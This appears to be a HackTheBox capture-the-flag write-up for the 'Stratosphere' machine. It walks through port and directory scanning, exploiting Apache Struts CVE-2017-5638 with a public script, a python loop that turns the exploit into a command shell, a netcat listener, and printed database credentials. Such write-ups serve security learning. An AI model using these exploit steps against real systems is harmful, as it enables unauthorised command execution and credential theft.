 ```yaml
---
layout: post
title:  "Stratosphere"
date:   2018-09-04 14:50:00 +0100
categories: hackthebox
---
```

* TOC
{:toc}

# Introduction
Stratosphere

# Service Detection
First things first, let's see what services we can find on this box

{% highlight plaintext %}
# Nmap 7.70 scan initiated Thu Jul 26 13:24:35 2018 as: nmap -sC -sV -oA nmap/stratosphere 10.10.10.64
Nmap scan report for 10.10.10.64                                                                                                                                                                                   
Host is up (0.040s latency).                                                                                                                                                                                       
Not shown: 997 filtered ports                                                                                                                                                                                      
PORT     STATE SERVICE    VERSION                                                                                                                                                                                  
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)                                                                                                                                            
| ssh-hostkey:                                                                                                                                                                                                     
|   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)                                                                                                                                                     
|   256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)                                                                                                                                                    
|_  256 d7:6b:66:9c:19:fc:aa:66:6c:18:7a:cc:b5:87:0e:40 (ED25519)                                                                                                                                                  
80/tcp   open  http                                                                                                                                                                                                
| fingerprint-strings:                                                                                                                                                                                             
|   Kerberos, LDAPSearchReq, LPDString, SMBProgNeg, SSLSessionReq, TLSSessionReq:                                                                                                                                  
|     HTTP/1.1 400                                                                                                                                                                                                 
|     Transfer-Encoding: chunked                                                                                                                                                                                   
|     Date: Thu, 26 Jul 2018 12:25:39 GMT                                                                                                                                                                          
|     Connection: close                                                                                                                                                                                            
|   LANDesk-RC, LDAPBindReq, NCP, NotesRPC, SIPOptions, TerminalServer:                                                                                                                                            
|     HTTP/1.1 400                                                                                                                                                                                                 
|     Transfer-Encoding: chunked                                                                                                                                                                                   
|     Date: Thu, 26 Jul 2018 12:25:40 GMT                                                                                                                                                                          
|_    Connection: close                                                                                                                                                                                            
| http-methods:                                                                                                                                                                                                    
|_  Potentially risky methods: PUT DELETE                                                                                                                                                                          
|_http-title: Stratosphere                                                                                                                                                                                         
8080/tcp open  http-proxy                                                                                                                                                                                          
| fingerprint-strings:                                                                                                                                                                                             
|   Help, Kerberos, LPDString, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:                                                                                                                                 
|     HTTP/1.1 400                                                                                                                                                                                                 
|     Transfer-Encoding: chunked                                                                                                                                                                                   
|     Date: Thu, 26 Jul 2018 12:25:39 GMT                                                                                                                                                                          
|     Connection: close                                                                                                                                                                                            
|   LANDesk-RC, LDAPBindReq, LDAPSearchReq, SIPOptions, TerminalServer:                                                                                                                                            
|     HTTP/1.1 400                                                                                                                                                                                                 
|     Transfer-Encoding: chunked                                                                                                                                                                                   
|     Date: Thu, 26 Jul 2018 12:25:40 GMT                                                                                                                                                                          
|_    Connection: close                                                                                                                                                                                            
| http-methods:                                                                                                                                                                                                    
|_  Potentially risky methods: PUT DELETE                                                                                                                                                                          
|_http-title: Stratosphere                                                                                    
{% endhighlight %}

OK, we have ssh, http on 80 and 8080, although nmap had some trouble identifying them

# Website
![]({{ "assets/stratosphere/1.png" | absolute_url }})

Snazzy looking website. Looking around, we find it is underconstruction
## Enumeration

While most people use GoBuster, I like dirsearch <https://github.com/maurosoria/dirsearch> as it gives you a percentage count

`/opt/dirsearch/dirsearch.py -u http://10.10.10.64/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html --plain-text-report=dirbus_80`

{% highlight plaintext %}
 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: html | Threads: 10 | Wordlist size: 220521

Error Log: /opt/dirsearch/logs/errors-18-09-04_15-14-46.log

Target: http://10.10.10.64/

[15:14:46] Starting: 
[15:14:46] 200 -    2KB - /
[15:18:53] 302 -    0B  - /manager  ->  /manager/
[15:18:53] 302 -    0B  - /Monitoring  ->  /Monitoring/
{% endhighlight %}

Let's see what's in the manager directory. It's password protected.

Monitoring redirects us to the URL `http://10.10.10.64/Monitoring/example/Welcome.action`

A quick google for urls ending in Action, mentions Struts. Struts has some pretty well documented exploits, so let's try some
## Struts Attack

We start with the CVE-2017-5638 that equifax were pwned by. A quick google gives us some POC code <https://github.com/mazen160/struts-pwn>

{% highlight plaintext %}
root@kali:~/HTB/stratosphere/struts/struts-pwn# ./struts-pwn.py -u http://10.10.10.64/Monitoring/example/Register.action -c id

[*] URL: http://10.10.10.64/Monitoring/example/Register.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
{% endhighlight %}

We have command execution. Now to get a reverse shell

Listen on port 9001
`nc -lvnp 9001`

Then lets send a reverse shell command <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet> via our struts exploit

Nothing seems to work, so I created a simple python script to loop the struts exploit and give me a kinda-shell

{% highlight python %}
#!/usr/bin/python

import os

while True:
    cmd = raw_input('enter command : ')
    os.system('./struts-pwn.py --url http://10.10.10.64:8080/Monitoring/example/Register.action -c "{}"'.format(cmd))
{% endhighlight %}


Within our working directory there is a db_connect file with some credentials

{% highlight plaintext %}
enter command : cat db_connect

[*] URL: http://10.10.10.64:8080/Monitoring/example/Register.action
[*] CMD: cat db_connect
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

[%] Done.
{% endhighlight %}


